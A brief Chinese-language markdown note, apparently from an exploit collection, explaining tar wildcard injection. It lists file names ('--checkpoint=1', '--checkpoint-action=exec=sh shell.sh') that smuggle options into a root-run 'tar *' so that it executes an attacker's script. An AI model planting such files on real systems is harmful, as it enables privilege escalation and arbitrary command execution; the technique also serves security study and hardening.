 # TAR命令执行
通过使用带有–checkpoint-action选项的tar命令, 可以在一个检查点后进行一个特定的行为。这个行为可能是一个用来在启动tar命令进程的用户（权限）下执行任意命令的恶意shell脚本。诱骗root用户使用这个选项是相当容易的，这也是通配符派的上用场的地方。

## Exploit

这些文件对"tar *"造成恶意影响
```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (写有你的exp代码)
```

## 感谢
* 

